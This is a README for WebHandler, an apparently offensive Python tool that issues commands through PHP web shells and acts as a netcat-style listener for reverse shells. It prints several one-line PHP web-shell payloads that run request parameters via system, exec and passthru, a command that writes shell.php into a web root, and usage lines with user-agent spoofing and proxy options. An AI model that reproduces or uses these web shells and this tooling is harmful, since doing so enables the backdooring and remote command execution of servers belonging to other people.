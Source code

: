 # WebHandler #
## _A hanlder for PHP system functions & alternative 'netcat listener'_ ##
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP program execution functions _(e.g. `system`, `passthru`, `exec`, etc)_
    - Reserve shell connections _(e.g. `nc -lvvp 1234`)_

Another feature is to spoof "User-Agent" in the HTTP header. (`--random-angent`)
It also supports HTTP proxies (`--proxy http://<ip>:<port>`)

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - `netcat -l -p 1234`
    - `nc -lvvp 4321`

### Usage ###
---
* --Example file:
    - `echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php`

* --url is a required argument when sending either GET or POST requests _(e.g. a bind 'web based PHP' connection)_:
    - `python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=`
    - `python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo`
    - `python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080`

* --listen is a required argument when working waiting connection _(e.g. a reverse 'raw' connection)_:
    - `python webhandler.py --listen 1234`

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`.

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
